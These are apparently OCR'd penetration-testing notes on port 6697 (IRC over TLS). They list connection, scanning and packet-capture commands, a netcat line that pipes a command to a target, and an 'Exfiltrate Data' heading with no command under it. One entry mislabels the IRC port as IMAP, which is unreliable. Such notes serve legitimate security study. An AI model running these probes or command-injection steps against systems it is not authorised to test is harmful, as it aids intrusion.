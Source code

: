 ### [[OpenSSL]]
- **Connect TLS Encrypted Interaction IMAP:** Establishes a secure connection to an IMAPS server using OpenSSL, allowing manual interaction with the IMAP service.
	```bash
	openssl s_client -connect <target_ip>:6697
	openssl s_client -connect <target_ip>:6697 -starttls
	```
- **Check SSL/TLS Certificate:**
	```bash
	openssl s_client -connect <target_ip>:6697 -showcerts
	```

### [[IRSSI]]
- **Connect to IRC Server:**
	```bash
	irssi -c <target_ip> -p 6697 -n <nickname> -z
	```

### [[WeeChat]]
- **Connect to an IRC Server:**
	```bash
	weechat --connect=ssl://<target_ip>:6697
	```

### [[HexChat]]
- **Connect to an IRC Server:**
	```bash
	hexchat --url=ircs://<target_ip>:6697
	```

## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 6697"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 6697
    ```

### [[NetCat]]
- **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 6697
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 6697 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 6697
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.